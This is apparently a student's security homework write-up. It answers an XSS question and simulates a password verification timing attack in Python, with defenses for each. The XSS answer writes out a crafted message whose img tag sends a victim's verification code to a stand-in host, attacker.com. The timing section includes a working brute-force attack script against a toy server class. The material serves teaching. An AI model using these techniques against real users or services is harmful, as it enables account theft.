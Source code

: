 # Assignment 12

## Part 1：XSS

（a）Discuss what an attacker could do to snoop on another user’s messages. What specially crafted messages could Mallory have sent to steal this user’s account verification code?

**Solution:** 

```html
Mallory: Hello <img src="https://attacker.com/save?message=
Steam: Your account verification code is 86423
Mallory: "> XSS?
```

+ Firstly, Mallory sent `Hello <img src="https://attacker.com/save?message=`.
+ Secondly, Steam sent `Your account verification code is 86423`.
+ Finally, Mallory sent `"> XSS?`.

This makes a request to `attacker.com`, sending the account verification code as part of the URL.

（b）Keeping in mind the attack you constructed in the previous part, what is a defense that can prevent against it?

**Solution:** 

Content Security Policy. We can specify the sources/domains that are allowed to be used for the \<img\> tag or specify the sources to block. This will block \<img\> tags with invalid sources and will stop the image from loading. 



## Part 2：Verification Timing Attack

### Verification Timing Attack原理

+ 场景举例：当Client将密码发送给Server时，Server会进行验证。

+ Vulnerability：验证方式为按位比较，一旦有一位不同，就会返回验证不通过。故验证时延会不同。

  ```python
  def verify(input_pwd):
  	for i in range(len(real_pwd)):
  		if input_pwd[i] != real_pwd[i]:
  			return false
  		return true
  ```

+ 攻击方法：
  1. 随机生成一个密码发给Server，获取服务器响应时间。
  2. 从第一位开始，尝试所有情况，如果验证时延不变，则依旧为错，直到验证时延变长了一点，说明服务器比较两个密码的时候第一位是一样的。
  3. 下一位重复以上操作，直到密码完全吻合。这样就得到了合法的密码。



### 代码模拟Verification Timing Attack

Server类：

+ 为了方便代码编写，这里使用纯数字密码。

```python
# Server类
class Server: 
    def __init__(self):
        # 真实密码
        self.real_pwd = "520030910281" # 12位

    def verify(self, input_pwd):
        for i in range(len(self.real_pwd)):
            if self.real_pwd[i] != input_pwd[i]:
                # 模拟验证时延
                return i
        # 最长验证时延
        return len(self.real_pwd)
```

攻击过程：

```python
# 初始化Server
server = Server()

def timing_attack(server):
    pwd = '0000000000000000' # 16位，多数情况下的密码最长位数，比如微信、wifi密码
    last_passed = -1 # 上一次的正确位数
    for i in range(len(pwd)):
        try_pwd = pwd
        max_passed = last_passed # 本轮最大猜对位数
        for j in range(10):
            # 第i位为j的尝试
            try_list = list(try_pwd)
            try_list[i] = str(j)
            try_pwd = ''.join(try_list)
            # 验证得到时延
            delay = server.verify(try_pwd)
            # 如果这一位猜对得到本轮最大猜对位数
            if delay > i:
                max_passed = i
                break
        # 如果本轮猜对位数大于上一轮说明还没有猜完
        if last_passed < max_passed:
            last_passed = max_passed
            pwd = try_pwd
        else:
            # 如果本轮猜对位数等于上一轮说明已经猜完
            pwd = pwd[0: max_passed + 1]
            break
    print("Guessed Password:", pwd)
    if pwd == server.real_pwd:
        print('Attack Success!')
    else:
        print('Attack Failed!')

# 攻击
timing_attack(server)
```

攻击结果：

<img src="timing_attack-res1.png" style="zoom: 67%;" />



### Verification Timing Attack防御措施

+ 有多种方法，例如：
  + 每一位都比较完后再响应。
  + 返回前等待一个随机时延后再响应。
  + 将收到的密码和真实密码依次哈希后再比较。

等待随机时延方式的代码实现如下：

```python
# Safe_Server类：利用随机时延抵御验证时间攻击
class Safe_Server: 
    def __init__(self):
        # 真实密码
        self.real_pwd = "520030910281" # 12位

    def verify(self, input_pwd):
        for i in range(len(self.real_pwd)):
            if self.real_pwd[i] != input_pwd[i]:
                # 验证时延 + 随机等待一个时延
                return i + random.randint(16 - i, 32 - i)
        # 最长验证时延
        return len(self.real_pwd)
```

攻击过程：

```python
# 随机种子
random.seed(520030910281)

# 初始化服务器
safe_server = Safe_Server()

# 尝试攻击
timing_attack(safe_server)
```

攻击结果：

<img src="timing_attack-res2.png" style="zoom: 67%;" />